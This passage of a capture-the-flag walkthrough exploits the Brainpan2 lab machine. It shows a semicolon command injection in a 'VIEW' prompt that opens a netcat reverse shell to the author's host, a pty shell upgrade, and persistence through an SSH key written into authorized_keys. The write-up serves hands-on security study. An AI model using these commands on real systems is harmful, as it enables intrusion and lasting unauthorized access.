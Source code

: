 After tinkering, I found that the 'VIEW' command, would let me inject code, if I just prepended my commands with a semi-colon. It wasn't sanitizing the input very well. 

I setup a local listener on my MacBook (192.168.1.136).

```
➜  ~  nc -lv 1234
```

I then issued the 'VIEW' command, and injected a connect-back command through netcat.

```
                          >> VIEW
    ENTER FILE TO DOWNLOAD: ; /bin/nc.traditional -e /bin/sh 192.168.1.136 1234
```

The window just froze, so I went back to my netcat window to verify it was working. I issued the 'id' command to test it. It was in fact working, and showed that I was able to execute commands as 'anansi'.

```
id
uid=1000(anansi) gid=1000(anansi) groups=1000(anansi),50(staff)
```

I really wanted to upgrade this shell to a 'real' shell, like over SSH, but the port scan before didn't show SSH running. On a hunch, I ran 'netstat', and I found the SSH server running on the '127.0.1.1' host, on port 2222. Checking the /etc/ssh/sshd_config file verified this configuration, albeit a bit odd. 

```
netstat -antup
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.1.1:2222          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:9999            0.0.0.0:*               LISTEN      5382/brainpan.exe
tcp        0      0 0.0.0.0:10000           0.0.0.0:*               LISTEN      -
tcp        0      0 192.168.188.146:50562   192.168.1.136:1234      ESTABLISHED 5522/sh
tcp        0      0 192.168.188.146:9999    192.168.188.1:52622     ESTABLISHED 5382/brainpan.exe
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
udp        0      0 0.0.0.0:7240            0.0.0.0:*                           -
udp6       0      0 :::59406                :::*                                -
```

I added my MacBook's public key to the machine for the username 'anansi', since I didn't know the password. But first, I had to do a trick that [g0tmi1k](https://twitter.com/@g0tmi1k) taught me to get a 'proper' shell.

```
python -c 'import pty;pty.spawn("/bin/bash")'
anansi@brainpan2:/opt/brainpan$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC7lycUor/c861GeARol7mufaGiXdWEi1NdR2F1iNJKr/2SwbkpBnmsKr+2ko8wk+x2KQzPHkNNNoTO3BUsc1BvInyLlTqmi9L3EjVBxmeprKVIUX/2jLC4wh1V4UVSODU+DCzu1OiNfFos1Tto28p/ZA6mTPm4WrcH5rFTpnzUagS+4EpuPlBjOOCIjL2cphpFV+TvbbFrWyGtB9LIDXajx9Dw5wsyI7SyCIwpgG9zBzg2WuYf5OQcKcSB+OgEzXy2tWTT4og98EI4A26FZ9EdvvwJATQ3gvkmGKh913PvU3528gDt7R5DnkaCHt6hVCaa9JOR5b/W9DCCDGjcw31j mandreko@420-sc02j364hdkq5-man" > ~/.ssh/authorized_keys
anansi@brainpan2:/opt/brainpan$ chmod 600 ~/.ssh/authorized_keys
```
